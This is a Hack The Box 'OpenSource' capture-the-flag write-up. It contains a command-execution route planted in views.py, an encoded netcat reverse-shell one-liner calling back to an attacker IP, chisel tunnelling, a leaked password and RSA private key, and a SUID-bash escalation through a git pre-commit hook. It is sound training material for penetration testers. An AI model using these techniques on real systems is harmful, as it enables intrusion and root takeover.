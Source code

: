 ```yaml
---
title: "Hack The Box - OpenSource"
tags: [linux,easy,git,pre-commit,python-exploit,PortForward,chisel]
categories: HackTheBox-Linux
---
```

![image](https://user-images.githubusercontent.com/66876484/193425998-accb083e-034b-4d55-92ab-856ddf9c7de2.png)


## *NMAP*
![image](https://user-images.githubusercontent.com/66876484/193426181-41176e42-5026-47fe-81e6-e7ea7bed9b07.png)
![image](https://user-images.githubusercontent.com/66876484/193426207-92de2298-8b27-41a9-abb4-083739dd5485.png)


As i have did full port scan 
there are 2 ports open 
1. 22/ssh
2. 80/http

## *Enumerating [ 80/http ]*

-> we can look down there we have something to download 

![image](https://user-images.githubusercontent.com/66876484/193426210-98642a74-4e99-4c4a-96b7-306e4717f9ed.png)


we have got something zip file **`source.zip`** lets download and unzip 

## *Enumerating [ Source.zip]*

![image](https://user-images.githubusercontent.com/66876484/193426213-323bd256-48bb-4fda-b913-f126706a9319.png)


![image](https://user-images.githubusercontent.com/66876484/193426218-24374240-47f7-4c83-812f-9577e067ed98.png)


.git looks intresting 

![image](https://user-images.githubusercontent.com/66876484/193426249-503f56ef-3550-4266-98e8-4a4cc585deea.png)



we foudn some credential  dev01:Soulless_Developer#2022   lets save it our note and  we can see that it pointing out to something 
**`/app/app/views.py`**

![image](https://user-images.githubusercontent.com/66876484/193426255-fdf33487-3dbe-4fd0-a2fa-3a9c10694994.png)


 -->  Got to  /app/app  we can see views.py
 
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
    
``` 
-->  as you can see there is an func app route so we can create our own func to get our revers shell

```python
@app.route('/shell')
def cmd():
    return os.system(request.args.get('cmd'))
```

--> So our New Views.py will Look like this 

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/shell')
def cmd():
    return os.system(request.args.get('cmd'))
    
    
``` 


```bash
So basically what we are doing is we have found views.py in which we have created our own payload from the pre defined function called @app.route  which will help us execute our command to get our reverse shell 

we need to upload our new view.py in the same dir /app/app/views.py using burpsuite  on the victim system to get our payload run  ( means we are overwritting the views.py with our malicious code )

```

--> change the file location and put it **`/app/app/views.py`**

![image](https://user-images.githubusercontent.com/66876484/193426265-04a40212-16c9-4816-b88a-89587d1fe863.png)


--> then use this one liner reverse shell code with encoded 

```
❯ curl 'http://10.10.11.164/shell?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.14.10%20443%20>/tmp/f'
```


### *Privilege Escalation [ container  to dev01 ]*

--> we got our reverse shell back
as we can see we got the root inside in a container 

![image](https://user-images.githubusercontent.com/66876484/193426275-cff57ad2-0f24-46df-92f2-8694459ddea7.png)


--> local  portforward it
so we will upload chisel and send the port to our local computer


![image](https://user-images.githubusercontent.com/66876484/193426278-9e43ceeb-1b73-4ef2-8b15-c721d9922232.png)


```
❯ chisel server --reverse --port 5678
2022/06/09 14:33:07 server: Reverse tunnelling enabled
2022/06/09 14:33:07 server: Listening on http://0.0.0.0:5678
2022/06/09 14:37:20 server: session#1: tun: proxy#R:2000=>172.17.0.1:2000:Listening
```

```
/app # ./chisel client 10.10.16.21:5678 R:2000:172.17.0.1:2000
2022/06/09 19:37:20 client: Connecting to ws://10.10.16.21:5678
2022/06/09 19:37:21 client: Connected
```
--> If we open in the browser the localhost on port 2000 we see a login  panel we can use the 
      credentials that we found at the beginning ofv01:Soulless_Developer#2022


![image](https://user-images.githubusercontent.com/66876484/193426295-43f8a7d1-3e91-4ee8-b456-f2be1a2ccb78.png)

  --> we have  as dev01 we can see a "home-backup" repository that has ssh key that we can test to check if its connect or not 
```
-----BEGIN RSA PRIVATE KEY-----
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
-----END RSA PRIVATE KEY-----
```
![image](https://user-images.githubusercontent.com/66876484/193426336-4ca285ab-2b8c-45f2-8c51-4d79fd472522.png)


### *Privilege Escalation [ dev01 to root]*

```
❯ ssh dev01@10.10.11.164 -i id_rsa

❯ dev01@opensource:~$ ls
user.txt
❯ dev01@opensource:~$ cat user.txt

```


![image](https://user-images.githubusercontent.com/66876484/193426342-c6b4b326-5ae1-4774-b902-59dea54b8bba.png)


--> Run linpeas or pspy we can see  that root executes tasks with git every minute


```
CMD: UID=0    PID=20396  | git add .
CMD: UID=0    PID=20397  | git commit -m Backup for 2022-06-09
CMD: UID=0    PID=20398  | /usr/lib/git-core/git gc --auto
CMD: UID=0    PID=20400  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git
CMD: UID=0    PID=20399  | git push origin main
```

In [gtfobins](https://gtfobins.github.io/gtfobins/git/) we see an example abusing the pre-commit, we can try it and wait for  a minute we become root


```bash
dev01@opensource:~$ echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
dev01@opensource:~$ chmod +x !$
chmod +x ~/.git/hooks/pre-commit
dev01@opensource:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash

```
![image](https://user-images.githubusercontent.com/66876484/193426377-12b488ae-ccd4-47c1-aede-762bb6aa6746.png)


--> and after we minutes 

```bash
dev01@opensource:~$ bash -p 
bash-4.4# ls
user.txt
bash-4.4# cd /root
bash-4.4# ls
config  meta  root.txt  snap
bash-4.4# cat root.txt

```
![image](https://user-images.githubusercontent.com/66876484/193426379-e66a8606-4a48-45d1-a695-8bc1d09191bd.png)



